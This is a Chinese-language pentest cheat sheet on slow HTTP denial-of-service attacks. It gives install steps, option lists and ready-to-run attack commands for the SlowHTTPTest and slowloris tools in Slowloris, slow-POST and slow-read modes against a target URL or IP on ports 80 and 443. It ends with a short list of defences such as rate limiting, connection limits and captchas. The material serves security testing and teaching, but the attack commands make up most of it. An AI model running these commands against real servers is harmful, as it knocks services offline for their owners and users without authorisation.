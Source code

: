 ## 概述

## 利用工具
### SlowHTTPTest
[SlowHTTPTest地址](https://github.com/shekyan/slowhttptest)

* Centos7下的编译安装

```
yum install gcc.x86_64 gcc-c++.x86_64 openssl-devel.x86_64 -y

yum install automake.noarch autoconf.noarch -y

git clone https://github.com/shekyan/slowhttptest && cd slowhttptest

./configure

autoreconf -ivf

make && make install

# 安装完成
```

* SlowHTTPTest使用说明

```
-H SlowLoris模式
-B SlowPost模式
-R Range Header模式
-X Slow Read模式

-g 生成统计信息
-o 指定输出文件名
-v 日志等级

-c 建立的连接数，默认为50
-i 在SlowLoris和Slow Post模式中，数据发送的间隔，默认为10
-l 测试维持时间，默认为240
-r 每秒连接个数，默认为50
-s 声明Content-Length header值，默认为4096
-t http verb在请求时使用什么操作，默认为GET
-u 指定目标URL
-x 在SlowLoris和Slow Post模式中，指定发送的最大数据层航都
-y 在Slow Read模式中指定tcp窗口范围上限，默认为32
-f 指定Content-Type Header，默认为application/x-www-form-urlencoded
-m 指定Accept Header，默认为text/html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5

-d 为所有连接指定代理
-e 为探测连接指定代理
-p 指定等待时间来确认攻击已经成功
```

* 案例

```
# slowloris模式
slowhttptest -c 1000 -H -g -o my_header_stats -i 10 -r 200 -t GET -u URL -x 24 -p 3

# slowpost模式
slowhttptest -c 3000 -B -g -o my_body_stats -i 110 -r 200 -s 8192 -t POST -u URL -x 10 -p 3

# slowread模式
slowhttptest -c 8000 -X -r 200 -w 512 -y 1024 -n 5 -z 32 -k 3 -u URL -p 3
```


### slowloris
[slowloris](https://github.com/gkbrk/slowloris.git)

* 安装

```
# pip安装
pip3 install slowloris
slowloris example.com

# git下载
git clone https://github.com/gkbrk/slowloris.git && cd slowloris
python3 slowloris.py example.com
```

* slowloris使用说明

```
-p PORT 指定端口，默认80
-s SOCKETS 套接字数量，默认150
-v 增加日志记录
-ua 对每个请求随机化UA参数
--proxy-host PROXY_HOST SocketS5代理主机，默认127.0.0.1
--porxy-port PROXY_PORT SocketS5代理端口，默认8080
--https 对请求使用https

# SocketS5代理支持，需要额外安装PySocks Python模块
pip3 install PySocks
```

* 案例

```
python slowloris.py IP # 攻击http 80端口

python slowloris.py -p 443 --https IP # 攻击https 443端口
```

## 防御
* 判断UA字段（不可靠，可以随意构造绕过）；
* 网页中嵌入JS代码（不可靠，爬虫可以携带浏览器引擎，或者加载JS）；
* 针对IP+Cookie限制访问频率（不可靠，Cookie可以伪造，IP存在代理池问题）；
* 关闭Apache最大连接数等，合理配置中间件，缓解DDoS攻击；
* 页面中添加验证码；
* 合理优化代码，合理使用缓存技术，减少数据库的读写操作；
